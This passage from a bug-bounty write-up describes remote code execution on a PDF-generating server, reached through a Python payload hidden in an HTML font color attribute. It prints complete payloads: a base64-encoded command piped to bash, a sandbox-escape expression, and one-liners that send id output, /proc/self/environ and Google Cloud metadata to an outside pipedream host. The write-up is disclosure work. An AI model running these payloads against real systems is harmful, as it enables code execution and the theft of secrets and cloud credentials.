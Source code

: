 ```python
- (None, 'os', 'touch /tmp/exploited'), ('__import__', 'system')
+ (None, 'requests', 'https://myhost'), ('__import__','get')
```


Pretty cool upon using this payload, I recieved a pingback on my server:

```
User-Agent: python-requests/2.31.0
```
This confirmed that I could execute arbitrary code on the system. I needed some more info before I write the report.

I modified the poc and relied upon this to send the command output to my server


```bash
python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(id)')"
```

![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/a9eda569-8d47-4d15-a8bb-ef24c5fafddb)

```bash
python3 -c "import requests;requests.get('https://en2celq7rewbul.m.pipedream.net/$(cat /proc/self/environ)')"
```


```python
(None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system')
```

```html
<font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo cHl0aG9uMyAtYyAiaW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldCgnaHR0cHM6Ly9lbjJjZWxyN3Jld2J1bC5tLnBpcGVkcmVhbS5uZXQvJChjYXQgL3Byb2Mvc2VsZi9lbnZpcm9uKScpIg== | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
```

The content of /proc/self/environ were really really sensitive , I submitted the report at this moment. As this server responsible for generating pdfs was hosted on Google Cloud , I could even fetch Metadata response also.

To confirm this I used the below payload:

```bash
python3 -c "import requests;import base64;metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true';metadata_headers = {'Metadata-Flavor': 'Google'};response = requests.get(metadata_url, headers=metadata_headers);encoded_metadata = base64.b64encode(response.text.encode()).decode();target_server_url = 'https://en2celq7rewbul.m.pipedream.net/';data_payload = {'metadata': encoded_metadata};requests.post(target_server_url, json=data_payload)"
```

